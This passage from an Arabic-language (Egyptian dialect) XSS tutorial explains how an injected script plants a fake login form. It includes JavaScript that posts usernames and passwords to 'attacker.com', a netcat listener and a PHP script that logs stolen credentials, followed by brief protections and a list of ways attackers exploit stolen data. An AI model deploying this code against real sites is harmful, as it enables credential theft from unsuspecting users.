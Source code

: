 #### 7. **إنشاء فورم وهمي لخداع المستخدم**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم وهمي (زي صفحة تسجيل دخول مزيفة) في الموقع، وبيخلي المستخدم يكتب بياناته فيه.
     - البيانات بتتبعت لسيرفر المهاجم.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var fakeForm = document.createElement("div");
       fakeForm.innerHTML = '<form action="http://attacker.com/steal" method="POST">' +
                            '<input type="text" name="username" placeholder="Username">' +
                            '<input type="password" name="password" placeholder="Password">' +
                            '<input type="submit" value="Login">' +
                            '</form>';
       document.body.appendChild(fakeForm);
       ```
       - `innerHTML`: بيعمل فورم وهمي في الصفحة.
       - `action`: بيحدد إن الفورم هيتبعت لسيرفر المهاجم.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_data.txt", "User: " . $_POST['username'] . ", Pass: " . $_POST['password'] . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع السكربتات من إنشاء فورمات وهمية.
     - علم المستخدمين ميكتبوش بياناتهم في فورمات مش متوقعة.

---

### إزاي المهاجم بيستخدم البيانات بعد ما يسرقها؟
لو المهاجم سرق البيانات، ممكن:
1. **يستخدم الباسوردات**:
   - يدخل على حساب الضحية باستخدام اليوزرنيم والباسورد.
   - يجرب الباسورد على مواقع تانية لو الضحية بيعيد استخدام نفس الباسورد.
2. **يبيع البيانات**:
   - يبيع المعلومات الشخصية (زي الإيميل أو بيانات البطاقة) في الـ Dark Web.
3. **يستخدمها في هجمات تانية**:
   - يعمل هجمات Phishing أو Social Engineering باستخدام البيانات اللي سرقها.

---
